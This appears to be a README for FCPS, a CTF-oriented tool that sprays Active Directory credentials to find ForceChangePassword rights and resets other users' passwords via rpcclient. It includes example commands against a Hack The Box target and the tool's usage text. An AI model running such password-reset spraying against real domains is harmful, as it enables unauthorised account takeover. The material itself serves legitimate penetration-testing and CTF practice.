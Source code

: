 # FCPS

This tool allows the user to spray credentials to test for ForceChangePassword rights over other users in the Username list.
First, gather a username list by using enum4linux, impacket-GetADUsers, etc.

For some CTF machines, Bloodhound doesn't show ForceChangePassword rights over other users. In those cases, you try each user in a special group manually.

In this blog by Juggarnaut-sec, the methodology is explained further "our current user “vcreed” is a member of that group. Very often, when we find an “IT support” type of custom group (or user) with Help Desk, Service Desk, Support, IT, etc. in their name, there’s a pretty good chance that the group / user will have delegate privileges that allow them to force a password reset" https://juggernaut-sec.com/ad-recon-msrpc-over-smb/#Manually_Enumerating_Users_Groups_and_More_%E2%80%93_rpcclient

```
python3 ~/Tools/FCPS.py -d administrator.htb -u 'Olivia' -p 'ichlie' -i 10.10.11.42 -f users.txt -n 'ichlie'
~/Tools/FCPS.sh -d administrator.htb -u 'Olivia' -p 'ichlie' -i 10.10.11.42 -f users.txt -n 'ichlie'

Usage: FCPS.py [-h] -d DOMAIN -u CONTROLLED_USER -p CONTROLLED_USER_PASSWORD -i DOMAIN_CONTROLLER_IP -f
               USERNAME_LIST -n NEW_PASSWORD

Automate password changes via rpcclient

options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Target domain name (e.g., example.com)
  -u CONTROLLED_USER, --controlled_user CONTROLLED_USER
                        User with permission to change passwords
  -p CONTROLLED_USER_PASSWORD, --controlled_user_password CONTROLLED_USER_PASSWORD
                        Password for the controlled user
  -i DOMAIN_CONTROLLER_IP, --domain_controller_ip DOMAIN_CONTROLLER_IP
                        Domain Controller IP address
  -f USERNAME_LIST, --username_list USERNAME_LIST
                        Path to file containing usernames
  -n NEW_PASSWORD, --new_password NEW_PASSWORD
                        New password to set for users
```


![image](https://github.com/user-attachments/assets/3ba16968-4338-439b-a6d0-f4b44025b54b)


